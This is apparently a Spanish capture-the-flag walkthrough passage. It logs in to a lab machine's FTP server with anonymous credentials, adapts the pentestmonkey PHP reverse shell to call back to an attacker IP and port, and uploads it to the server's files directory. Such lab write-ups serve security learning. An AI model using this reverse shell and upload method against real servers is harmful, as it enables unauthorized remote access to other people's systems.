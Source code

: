 ## FTP

Vamos a conectarnos al ftp utilizando las credenciales anonymous/anonymous.

```
ftp 192.168.1.64
Connected to 192.168.1.64.
220 ProFTPD Server (ProFTPD Default Installation) [192.168.1.64]
Name (192.168.1.64:void4m0n): anonymous
331 Anonymous login ok, send your complete email address as your password
Password: 
230 Anonymous access granted, restrictions apply
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||63601|)
150 Opening ASCII mode data connection for file list
-rw-r--r--   1 0        0             109 Nov 26  2020 CALL.html
226 Transfer complete
ftp> 

```
Como vemos ftp nos conecta con el directorio files, donde está ubicado CALL.html.

## Subimos la reverse shell

En este momento podemos intentar subir un archivo php el cual al ser llamado ejecute el código albergado estableciendo una reverse shell con la máquina atacante
podemos subir este archivo a través de ftp.

Consultamos la Cheat Sheet de <a href="https://pentestmonkey.net/tools/web-shells/php-reverse-shell" target="_blank">Pentestmonkey</a>
y adaptamos la shell con los parametros deseados:

```
  47   │ set_time_limit (0);
  48   │ $VERSION = "1.0";
  49   │ $ip = '192.168.1.84';  // CHANGE THIS
  50   │ $port = 1234;       // CHANGE THIS
  51   │ $chunk_size = 1400;
  52   │ $write_a = null;
  53   │ $error_a = null;
  54   │ $shell = 'uname -a; w; id; /bin/sh -i';
  55   │ $daemon = 0;
  56   │ $debug = 0; 
```

<br>Subimos el archivo con la reverse shell al servidor:

```
ftp> put php-reverse-shell.php 
local: php-reverse-shell.php remote: php-reverse-shell.php
229 Entering Extended Passive Mode (|||30588|)
150 Opening BINARY mode data connection for php-reverse-shell.php
100% |******************************************************************************************************************************************************************|  5494      174.64 MiB/s    00:00 ETA
226 Transfer complete
5494 bytes sent in 00:00 (13.78 MiB/s)
```
<br>El archivo con la revershell se ha subido con éxito al directorio `/files/`.
